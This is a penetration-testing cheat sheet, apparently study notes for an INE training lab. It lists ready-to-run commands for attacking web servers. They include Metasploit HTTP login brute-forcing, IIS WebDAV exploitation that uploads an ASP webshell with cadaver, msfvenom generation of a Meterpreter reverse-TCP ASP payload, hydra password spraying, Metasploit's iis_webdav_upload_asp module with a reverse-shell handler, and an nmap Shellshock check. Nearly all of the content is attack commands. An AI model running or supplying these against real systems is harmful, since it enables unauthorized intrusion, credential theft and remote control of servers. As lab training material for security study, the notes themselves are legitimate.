 ```bash
## set options depends on the selected module
set HTTP_METHOD GET
set TARGETURI /<DIR>/

set USER_FILE <USERS_LIST>
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set VERBOSE false
set AUTH_URI /<DIR>/
exploit
```
#### IIS WEBDAV
```bash
# IIS WEBDAV. Shows directory, file creation and execution of it.
davtest -url <URL>
davtest -auth <USER>:<PW> -url http://<TARGET_IP>/webdav

#upload file. Type of files is shown above in davtest tool 
cadaver [OPTIONS] <URL>
cadaver http://target1.ine.local/webdav
dav:/webdav/> put /usr/share/webshells/asp/webshell.asp
#in the tab: dir C:\

nmap -p 80 --script http-enum -sV <TARGET_IP>

msfvenom -p <PAYLOAD> LHOST=<LOCAL_HOST_IP> LPORT=<LOCAL_PORT> -f <file_type> > shell.asp

msfvenom -p windows/meterpreter/reverse_tcp LHOST=<LOCAL_HOST_IP> LPORT=<LOCAL_PORT> -f asp > shell.asp

hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/share/wordlists/metasploit/common_passwords.txt <TARGET_IP> http-get /webdav/
```
```bash
## METASPLOIT
# Global set
setg RHOSTS <TARGET_IP>
setg RHOST <TARGET_IP>

use exploit/multi/handler
use exploit/windows/iis/iis_webdav_upload_asp

set payload windows/meterpreter/reverse_tcp
set LHOST <LOCAL_HOST_IP>
set LPORT <LOCAL_PORT>

set HttpUsername <USER>
set HttpPassword <PW>
set PATH /webdav/metasploit.asp
```

#### ShellShock or CGI
```bash
# BASH - APACHE
nmap -sV --script=http-shellshock --script-args "http-shellshock.uri=/gettime.cgi" <TARGET_IP>
#nmap -sV --script=http-shellshock --script-args "http-shellshock.uri=/browser.cgi" target1.ine.local
```
